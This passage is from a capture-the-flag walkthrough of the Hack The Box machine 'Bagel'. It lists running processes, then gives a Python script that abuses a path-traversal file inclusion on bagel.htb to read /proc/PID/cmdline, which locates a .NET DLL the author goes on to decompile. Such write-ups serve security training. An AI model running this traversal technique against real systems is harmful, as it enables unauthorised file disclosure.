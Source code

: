 ```
924 Name:	dotnet
925 Name:	.NET Finalizer
927 Name:	.NET Sockets
930 Name:	.NET ThreadPool
932 Name:	.NET Timer
933 Name:	HangDetector
934 Name:	vmtoolsd
936 Name:	gmain
952 Name:	gmain
954 Name:	gdbus
955 Name:	abrt-dump-journ
958 Name:	abrt-dump-journ
959 Name:	abrt-dump-journ
971 Name:	gmain
972 Name:	gdbus
988 Name:	gmain
989 Name:	JS Helper
990 Name:	JS Helper
992 Name:	gdbus
```

Woohoo! Towards the bottom of this list one can notice numerous `.NET` processes (i.e., PIDs: `884, 888, 919, 920, 921, 922, 923, 924, 925, 927, 930, 932 `).

Let's now query their `/proc/PID/cmdline`:

```
import requests

ids = [884, 888, 919, 920, 921, 922, 923, 924, 925, 927, 930, 932 ]

for i in range(0, len(ids)):

	outfile = open("dotnet/" + str(ids[i]), "w", encoding='utf-8')

	url = "http://bagel.htb:8000/?page=../../../../proc/" + str(ids[i]) + "/cmdline"
	req = requests.get(url)

	print(str(i) + " " + req.text.partition('\n')[0])
	
	outfile.write(req.text)
	outfile.close()
```

Which point towards the following `.dll` file: `/opt/bagel/bin/Debug/net6.0/bagel.dll`

### Bagel.dll

As per usual, let's download the file via the LFI we found previously. To analyze it let's take advantage of [JetBrain's dotPeek](https://www.jetbrains.com/decompiler/), which is essentially an efficient decompiler and does not require any license!

![dotPeek](https://user-images.githubusercontent.com/44783555/220196667-27858c92-0bf6-421d-b81f-3acb97cee365.PNG)
